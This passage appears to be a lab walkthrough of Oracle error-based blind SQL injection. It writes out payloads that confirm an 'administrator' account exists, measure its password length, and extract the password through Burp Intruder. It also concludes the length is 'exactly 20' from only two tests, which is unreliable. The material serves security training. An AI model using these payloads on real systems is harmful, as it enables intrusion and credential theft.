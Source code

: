 ```sql
'||(SELECT CASE WHEN '1'='2' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```
Response: HTTP/2 200 OK

A 500 error when the condition is true confirms that a user with the username 'administrator' exists.

**Explanation:**
`SELECT ... FROM users WHERE username='administrator'`
This part is executed first: it filters the `users` table down to just rows where `username = 'administrator'`.
- If no such row exists, the query returns nothing, and the rest doesn't matter.
- If the user does exist, Oracle moves on to evaluate the `CASE` for that row.

`CASE WHEN '1'='1' THEN TO_CHAR(1/0) ELSE '' END`
This is a conditional expression, similar to an `if-else`:

Oracle checks: is `'1' = '1'`?
Yes, it is → so it chooses the `THEN` branch
It will evaluate: `TO_CHAR(1/0)` → this triggers division by zero → throws error
If the condition had been false (`'1'='2'`), Oracle would evaluate the `ELSE` part: `''`, and no error would occur.

**Step 5: Determining Password Length**

```sql
'||(SELECT CASE WHEN LENGTH(password)>1 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```
Response: HTTP/2 500 Internal Server Error

```sql
'||(SELECT CASE WHEN LENGTH(password)>20 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```
Response: HTTP/2 200 OK

This confirms the password is exactly 20 characters long.

**Step 6: Extracting Password Using Intruder**

```sql
'||(SELECT CASE WHEN SUBSTR(password,1,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

Configured Burp Intruder with:
- Payload type: Simple list
- Payload set: a-z and 0-9
- Filter: Only 5xx server error responses

![burpsuite response](./misc-images/10-1.png)
